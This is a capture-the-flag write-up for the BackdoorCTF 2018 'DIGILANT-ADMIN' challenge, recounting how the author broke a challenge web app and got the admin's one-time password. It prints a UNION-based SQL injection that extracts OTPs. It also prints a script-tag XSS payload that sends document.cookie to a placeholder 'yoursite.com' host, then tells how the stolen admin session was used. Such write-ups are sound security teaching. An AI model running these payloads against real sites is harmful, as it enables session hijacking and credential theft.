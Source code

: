 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author:
  name: Crisis
  github: Qrisis
  twitter: crisiswic
---
```

Here's my solution for the DIGILANT-ADMIN challenge of the 2018 BackdoorCTF. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:  
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email adress, and then log in with the OTP sent to that email adress.   
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:  
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :  
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated:  
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:  
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```  
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection :  
![](https://i.imgur.com/2pIbQat.png)  
I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:  
![](https://i.imgur.com/zXCRAmp.png)  
Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:  
![](https://i.imgur.com/87bPuIJ.png)  
  etc.  
![](https://i.imgur.com/TlhkZJE.png)  
etc.     
  
And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:  
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- - 
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.  
In the dump of the database, I noticed that many people had reported URLs like this:  
![](https://i.imgur.com/UQigMAO.png)  
That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:  
![](https://i.imgur.com/m3cyYe3.png)  
You just had to access your post's URL with `&full=true` appended to it:  
![](https://i.imgur.com/L8RjsKN.png)  

I made a new one with the standard 
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:  
![](https://i.imgur.com/6kwpoqS.png)  

I modified my cookie, but got kicked out:
```
Login attempted from another IP address. Login again
```  
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:  
![](https://i.imgur.com/gFq9PJw.png)  
I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):  
![](https://i.imgur.com/sBZPX8Z.png)  
Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :  
![](https://i.imgur.com/1jyENgf.png)  